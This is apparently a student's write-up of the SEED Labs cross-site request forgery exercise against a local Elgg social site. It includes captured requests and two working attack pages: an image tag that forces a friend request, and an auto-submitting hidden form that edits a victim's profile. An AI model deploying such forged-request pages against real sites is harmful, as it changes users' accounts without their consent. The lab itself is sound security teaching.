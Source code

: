 ```yaml
---
title: Cross-Site Request Forgery Lab
author: Xinyi Li
date: \today{}
---
```


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_CSRF_Elgg.pdf

# Set-up

2 VMs:

- attacker: `10.0.2.15`
- server: `10.0.2.4`

Edit the DNS records in `/etc/hosts` on both the attacker and the server:

```
10.0.2.4       www.csrflabelgg.com
10.0.2.15       www.csrflabattacker.com
```

# Task 1

Capture a legitimate friend request from Alice:

```
http://www.csrflabelgg.com/action/friends/add?friend=43&__elgg_ts=1589690725&__elgg_token=Irq1Au9aMYevG7DW46dbHw&__elgg_ts=1589690725&__elgg_token=Irq1Au9aMYevG7DW46dbHw
GET /action/friends/add?friend=43&__elgg_ts=1589690725&__elgg_token=Irq1Au9aMYevG7DW46dbHw&__elgg_ts=1589690725&__elgg_token=Irq1Au9aMYevG7DW46dbHw HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.csrflabelgg.com/profile/boby
X-Requested-With: XMLHttpRequest
Cookie: Elgg=btc2fee9599em32h7tc646bi83
Connection: keep-alive
```

Create a web page as [msg.html](./msg.html):

```html
<html>
    <body>
        <img src = "http://www.csrflabelgg.com/action/friends/add?friend=43"/>
    </body>
</html>
```

And put it into `/var/www/CSRF/Attacker` folder.

Then, send Alice a message that contains the URL: http://www.csrflabattacker.com/msg.html

# Task 2

Observe a legitimate profile save request:

```
Request URL: http://www.csrflabelgg.com/action/profile/edit
__elgg_token=7B0nt3O7twQOHOELADFNtg
__elgg_ts=1589772059
name=Alice
description=<p>dasdsa</p>


accesslevel[description]=2
briefdescription
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=42
```

Create a malicious web page as [`profile.html`](./profile.html):

```html
<html>

<body>
    <h1>This page forges an HTTP POST request.</h1>
    <script type="text/javascript">
        function forge_post() {
            var fields;
            // The following are form entries need to be filled out by attackers.
            // The entries are made hidden, so the victim won't be able to see them.
            fields += "<input type='hidden' name='name' value='Alice'>";
            fields += "<input type='hidden' name='briefdescription' value='Boby is my hero'>";
            fields += "<input type='hidden' name='accesslevel[briefdescription]' value = '2'>";
            fields += "<input type='hidden' name='guid' value='42'>";
            // Create a <form> element.
            var p = document.createElement("form");
            // Construct the form
            p.action = "http://www.csrflabelgg.com/action/profile/edit";
            p.innerHTML = fields;
            p.method = "post";
            // Append the form to the current page.
            document.body.appendChild(p);
            // Submit the form
            p.submit();
        }
        // Invoke forge_post() after the page is loaded.
        window.onload = function () { forge_post(); }
    </script>
</body>

</html>
```

And then place it into `/var/www/CSRF/Attacker` folder. So it can be accessed via http://www.csrflabattacker.com/profile.html. Now send this URL to Alice, if she clicks and opens the website, it will forge an HTTP POST request to edit her `brief description` in profile page. After that, you can see her profile page is updated as:

![](./profile_update.png)

# Countermeasure

*To test snort rules, ignore the task temporarily.*
